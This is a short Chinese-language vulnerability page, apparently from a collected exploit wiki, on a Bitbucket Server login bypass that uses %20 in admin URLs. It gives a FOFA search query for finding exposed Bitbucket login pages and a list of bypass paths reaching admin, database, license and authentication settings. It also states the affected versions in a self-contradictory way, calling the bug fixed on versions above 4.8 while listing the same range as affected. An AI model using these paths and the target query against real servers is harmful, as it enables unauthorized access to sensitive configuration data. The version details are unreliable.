 # Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

<a-checkbox checked>Bitbucket Server > 4.8</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Log in - Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646803634647-f4c4a968-440a-4dd0-8e1b-24955401b1f4.png)

验证POC

```javascript
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![img](../../../.vuepress/public/img/1646803761282-1d4e5f70-673a-4d11-b5a6-982a5d31f4d8.png)

